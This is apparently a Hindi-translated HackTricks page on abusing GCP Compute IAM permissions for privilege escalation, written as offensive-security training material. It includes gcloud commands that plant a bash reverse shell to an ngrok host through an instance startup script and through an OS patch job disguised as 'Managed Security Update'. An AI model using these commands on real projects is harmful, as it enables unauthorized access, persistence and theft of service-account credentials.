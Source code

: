 # GCP - Compute Privesc

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## Compute

GCP में Compute और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि उन सभी प्रिविलेज एस्केलेशन अटैक्स को करने के लिए जो इंस्टेंस के मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ता और SSH कुंजियाँ जोड़ना) **आपके पास उस SA पर `actAs` अनुमतियाँ होनी चाहिए जो इंस्टेंस से जुड़ी है**, भले ही SA पहले से जुड़ी हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

उस अनुमति के साथ आप एक **इंस्टेंस** की **मेटाडेटा** जानकारी को **संशोधित** कर सकते हैं और एक उपयोगकर्ता की **अधिकृत कुंजियों** को बदल सकते हैं, या **sudo** अनुमतियों के साथ एक **नया उपयोगकर्ता** **बना सकते हैं**। इसलिए, आप किसी भी VM इंस्टेंस में SSH के माध्यम से प्रवेश कर सकते हैं और उस GCP Service Account को चुरा सकते हैं जिसके साथ इंस्टेंस चल रहा है।\
सीमाएँ:

* ध्यान दें कि VM इंस्टेंस में चल रहे GCP Service Accounts के पास डिफ़ॉल्ट रूप से **बहुत सीमित स्कोप** होता है
* आपको लॉगिन करने के लिए **SSH** सर्वर से संपर्क करने में सक्षम होना चाहिए

इस अनुमति का शोषण कैसे करें, इसके बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप इस हमले को नए स्टार्टअप-स्क्रिप्ट जोड़कर और इंस्टेंस को पुनरारंभ करके भी कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार** देती है लेकिन पूरे प्रोजेक्ट के बजाय एक विशिष्ट इंस्टेंस पर। **पिछले अनुभाग के लिए वही एक्सप्लॉइट्स और सीमाएँ लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ एक भूमिका देने** और उनका दुरुपयोग करके विशेषाधिकार बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **OSLogin इंस्टेंस में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट हो सकते हैं। आपके पास **इंस्टेंस के अंदर रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपके पास VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **OSLogin इंस्टेंस में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट हो सकते हैं। आपके पास **इंस्टेंस के अंदर रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपके पास VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

यह संभव है कि **एक वर्चुअल मशीन को एक असाइन किए गए सर्विस अकाउंट के साथ बनाएं और मेटाडेटा तक पहुंचकर सर्विस अकाउंट का टोकन चुरा लें** ताकि इसके विशेषाधिकार बढ़ाए जा सकें।

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) पाई जा सकती है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं, तो आप एक [**पैच जॉब या डिप्लॉयमेंट**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको पर्यावरण में लेटरल मूवमेंट करने और एक प्रोजेक्ट के भीतर सभी कंप्यूट इंस्टेंस पर कोड निष्पादन प्राप्त करने में सक्षम करेगा।

ध्यान दें कि इस समय आपको **SA से जुड़े इंस्टेंस पर `astAs` अनुमति की आवश्यकता नहीं है**।

यदि आप इसे मैन्युअल रूप से एक्सप्लॉइट करना चाहते हैं, तो आपको या तो एक [**पैच जॉब**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **या** [**डिप्लॉयमेंट**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) बनाना होगा।\
एक पैच जॉब के लिए चलाएं:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

पैच डिप्लॉयमेंट को डिप्लॉय करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) का उपयोग पहले इस गलत कॉन्फ़िगरेशन का शोषण करने के लिए किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावर इसे स्थायित्व के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने आप को अतिरिक्त अनुमतियाँ दें** compute Image के लिए।

### `compute.snapshots.setIamPolicy`

**अपने आप को अतिरिक्त अनुमतियाँ दें** एक disk snapshot के लिए।

### `compute.disks.setIamPolicy`

**अपने आप को अतिरिक्त अनुमतियाँ दें** एक disk के लिए।

### Access Scopes को बायपास करें

इस लिंक का अनुसरण करते हुए आप कुछ [**विचार पा सकते हैं Access Scopes को बायपास करने के लिए**](../)।

### GCP Compute instance में Local Privilege Escalation

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}
